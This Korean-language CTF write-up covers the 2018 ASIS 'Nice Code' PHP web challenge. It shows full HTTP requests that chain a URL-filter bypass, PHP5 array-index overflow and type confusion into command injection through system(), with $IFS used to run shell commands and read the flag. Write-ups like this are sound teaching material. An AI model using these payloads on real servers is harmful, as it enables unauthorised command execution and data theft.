

# \[2018 ASIS CTF] \[Web] Nice Code
## Keywords
- php type confusion
- php5 array index overflow
- php shell
- command injection

## Solution
Host : http://167.99.36.112:8080/

### Step 1
```
delspon@inj3ct:~$ http http://167.99.36.112:8080/
...
<form action="admin/">
...
```

admin 폴더에 접근해봤습니다.

```
delspon@inj3ct:~$ http -b http://167.99.36.112:8080/admin/
substr($URL, -10) !== '/index.php'
```
필터링이 어떻게 되어 있는지 출력해줍니다. `index.php`로 접근해봅시다.

```
delspon@inj3ct:~$ http -b http://167.99.36.112:8080/admin/index.php
$URL == '/admin/index.php'
```
필터링이 걸리고
```
delspon@inj3ct:~$ http -b http://167.99.36.112:8080/admin/aaa/../index.php
./
```
걸리고
```
delspon@inj3ct:~$ http -b http://167.99.36.112:8080/admin//index.php
//
```
걸리고
```
delspon@inj3ct:~$ http -b http://167.99.36.112:8080/admin/index.php/admin
substr($URL, -10) !== '/index.php'
```
또 걸립니다. 근데 '이게 왜 되지?' 생각해봤는데 필터링이 index.php에 걸려있는 것이 아니라 방화벽이나 다른 곳에서 걸려있나봅니다.
```
delspon@inj3ct:~$ http -b http://167.99.36.112:8080/admin/index.php/admin/index.php
Ok,ok...<br><center style="font-size:36px;"><a href="../../../another/index.php?source">Click here</a></center>
```
그런데 이게 왜 필터링 우회가 되는지는 잘 모르겠습니다...
암튼 우회 완료.

### Step 2
http://167.99.36.112:8080/another/index.php?source에 접속해보면 아래와 같이 난독화된 소스코드가 주어집니다.

```php
<?php
include('oshit.php');
$g_s = ['admin','oloco'];
$__ni = $_POST['b'];
$_p = 1;
if(isset($_GET['source'])){
    highlight_file(__FILE__);
        exit;
}
if($__ni === $g_s & $__ni[0] != 'admin'){
    $__dgi = $_GET['x'];
    $__dfi = $_GET;
    foreach($__dfi as $_k_o => $_v){
        if($_k_o == $k_Jk){
            $f = 1;
        }
        if($f && strlen($__dgi)>17 && $_p == 3){
            $k_Jk($_v,$_k_o); //my shell :)
        }
        $_p++;
    }
}else{    
    echo "noob!";
}
```

우선 첫번째 if 문부터 우회해야 합니다.
`$__ni === $g_s`이려면 `b[0]=admin&b[1]=oloco`입니다. `$__ni[0] != 'admin'`이려면 `b[0]!=admin`입니다. 두개의 조건이 충돌하는데 php5에는서 배열 index 오버플로우 버그가 있습니다. `b[2^32]=b[4294967296]=b[0]`이 됩니다.

```
delspon@inj3ct:~$ http -b -f POST "http://167.99.36.112:8080/another/index.php" 'b[4294967296]=admin' 'b[1]=oloco'
```
`noob!` 문자열이 출력되지 않는 것을 보아 필터링이 우회되었음을 확인할 수 있습니다.

이제 `$f && strlen($__dgi)>17 && $_p == 3`을 충족시켜야 합니다.

`$f!=0`이어야 하므로 `$_k_o == $k_Jk` 조건을 만족시켜야 합니다. `$_k_o`에는 GET 변수명, `$k_Jk`에는 무엇이 들어있을지 모르겠지만 밑에 `$k_Jk($_v,$_k_o)`로 쓰이는 것을 보아 대충 문자열이라고 가정합시다.

위 테이블을 통해 문자열과 0을 비교하면 type confusion이 발생하는 것을 알 수 있습니다.

`strlen($__dgi)>17`이므로 `x=aaaaaaaaaaaaaaaaaaaa`을 입력하면 될 것입니다. 그후 `$p == 3`이므로 GET 파라미터를 3개이상 넣어주면 될 것입니다.
`$k_Jk($_v,$_k_o)`이므로 `$_v`에 커맨드를, `$_k_o` 인자를 넣어주면 됩니다.

따라서 최종적으로 완성되는 payload는 다음과 같습니다.

```
delspon@inj3ct:~$ http -b -f POST "http://167.99.36.112:8080/another/index.php?0=1&x=aaaaaaaaaaaaaaaaaaaa&ls=system&c=dummy" 'b[4294967296]=admin' 'b[1]=oloco'
app
bin
boot
create_mysql_admin_user.sh
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
run.sh
sbin
srv
start-apache2.sh
start-mysqld.sh
sys
tmp
usr
var
```
잘 동작하지만 아래와 같이 스페이스가 들어가면 커맨드가 실행되지 않습니다. 
몇번 시도하면서 커스텀 쉘이 php로 되어있음을 알 수 있었습니다. php에서 $IFS라는 변수를 통해 space 역할을 할 수 있습니다. 
```
delspon@inj3ct:~$ http -b -f POST "http://167.99.36.112:8080/another/index.php?0=1&x=aaaaaaaaaaaaaaaaaaaa&cat\$IFS*/*flag*=system&c=dummy" 'b[4294967296]=admin' 'b[1]=oloco'
ASIS{f52c5a0cf980887bdac6ccaebac0e8428bfb8b83}
```